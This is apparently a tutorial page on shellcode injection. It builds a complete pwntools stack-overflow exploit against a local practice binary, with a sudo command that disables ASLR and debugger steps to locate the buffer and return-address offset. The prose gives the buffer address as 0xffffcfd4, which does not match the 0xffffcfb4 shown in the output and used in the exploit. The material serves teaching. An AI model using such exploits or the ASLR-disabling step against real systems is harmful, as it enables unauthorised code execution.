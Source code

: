 ```yaml
---
description: Running your own code
---
```


# Shellcode

In real exploits, it's not particularly likely that you will have a `win()` function lying around - shellcode is a way to run your **own** instructions, giving you the ability to run arbitrary commands on the system.

**Shellcode** is essentially **assembly instructions**, except we input them into the binary; once we input it, we overwrite the return pointer to hijack code execution and point at our own instructions!

> Note: I promise you can trust me but you should never _ever_ run shellcode without knowing what it does. Pwntools is safe and has almost all the shellcode you will ever need.

The reason shellcode is successful is that Von Neumann architecture \(the architecture used in most computers today\) does not differentiate between **data** and **instructions** - it doesn't matter where or what you tell it to run, it will attempt to run it.  Therefore, even though our input is data, the computer _doesn't know that_ - and we can use that to our advantage.

{% file src="../.gitbook/assets/shellcode.zip" caption="Shellcode" %}

### Disabling ASLR

ASLR is a security technique, and while it is not specifically designed to combat shellcode, it involves randomising certain aspects of memory \(we will talk about it in much more detail later\). This randomisation can make shellcode exploits like the one we're about to do more less reliable, so we'll be disabling it for now.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

> Again, you should never run commands if you don't know what they do.

### Finding the Buffer in Memory

Let's debug `vuln` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```text
$ r2 -d -A vuln

[0xf7fd40b0]> s sym.unsafe ; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```text
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is \(if it doesn't, make sure ASLR is disabled!\).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```text
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

Wehey the padding is 312 bytes!

### Putting it all together

In order for the shellcode to be correct, we're going to set `context.binary` to our binary; this grabs stuff like the arch, os and bits and enables pwntools to provide us with accurate shellcode.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

> Note: We can use just `process()` because once `context.binary` is set it is assumed to use that process

Now we can use pwntools' awesome shellcode functionality to make it _incredibly_ simple.

```python
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> If you're getting an EOFError, print out the shellcode and try to find it in memory - the stack address may be wrong

```text
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

### Summary

* We injected shellcode, a series of assembly instructions, when prompted for input
* We then hijacked code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode
* Once the return pointer got popped into EIP, it pointed at our shellcode
* This caused the program to execute our instructions, giving us \(in this case\) a shell for arbitrary command execution


